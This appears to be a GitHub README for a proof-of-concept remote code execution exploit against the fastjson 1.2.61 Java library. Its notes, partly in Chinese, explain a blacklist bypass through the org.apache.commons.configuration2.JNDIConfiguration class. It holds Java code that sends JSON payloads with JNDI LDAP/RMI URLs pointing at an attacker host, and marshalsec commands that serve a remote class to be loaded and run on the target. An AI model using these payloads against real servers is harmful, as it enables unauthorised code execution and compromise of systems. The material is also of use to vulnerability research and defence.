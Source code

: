 # fastjson-1.2.61-RCE

![](./Fastjson-1.2.61-RCE.gif)

## Ps：
官方在https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java 中，将0x7bddd363ad3998c6L
（即1.2.61	8925522461579647174	0x7bddd363ad3998c6L	org.apache.commons.configuration.JNDIConfiguration）加入黑名单，但是未将org.apache.commons.configuration2.JNDIConfiguration加入黑名单，导致1.2.61 bypass.

![](./blacklist.jpg)

## FastJsonTest.java
```
import com.alibaba.fastjson.JSON;
import com.alibaba.fastjson.JSONObject;
import com.alibaba.fastjson.parser.ParserConfig;

public class FastJsonTest {
    public static void main(String[] args){
        ParserConfig.getGlobalInstance().setAutoTypeSupport(true);
        String jsonStr1 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration2.JNDIConfiguration\",\"prefix\":\"rmi://10.10.20.166:1099/ExportObject\"}";

        JSONObject json = JSON.parseObject(jsonStr2);
        json.toJSONString();
    }
}

//        fastjson 1.2.60
//        String jsonStr2 = "{\"@type\":\"org.apache.commons.configuration.JNDIConfiguration\",\"prefix\":\"ldap://10.10.20.166:1389/ExportObject\"}";
```
## LDAP PORT 1389

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.LDAPRefServer http://192.168.2.18:8000/#ExportObject`

## RMI PORT 1099

`java -cp marshalsec-0.0.3-SNAPSHOT-all.jar marshalsec.jndi.RMIRefServer http://192.168.2.18:8000/#ExportObject`

![](./fastjson_1_2_61.jpg)

## diff poc

```
1.2.60 
org.apache.commons.configuration.JNDIConfiguration
>>>commons-configuration-1.4.jar


1.2.61
org.apache.commons.configuration2.JNDIConfiguration
>>>commons-configuration2-2.0.jar
```

## 参考链接
https://mp.weixin.qq.com/s/PHB3dBgvDGdqPhhB1dFfNA

https://github.com/LeadroyaL/fastjson-blacklist

https://github.com/alibaba/fastjson/blob/master/src/main/java/com/alibaba/fastjson/parser/ParserConfig.java


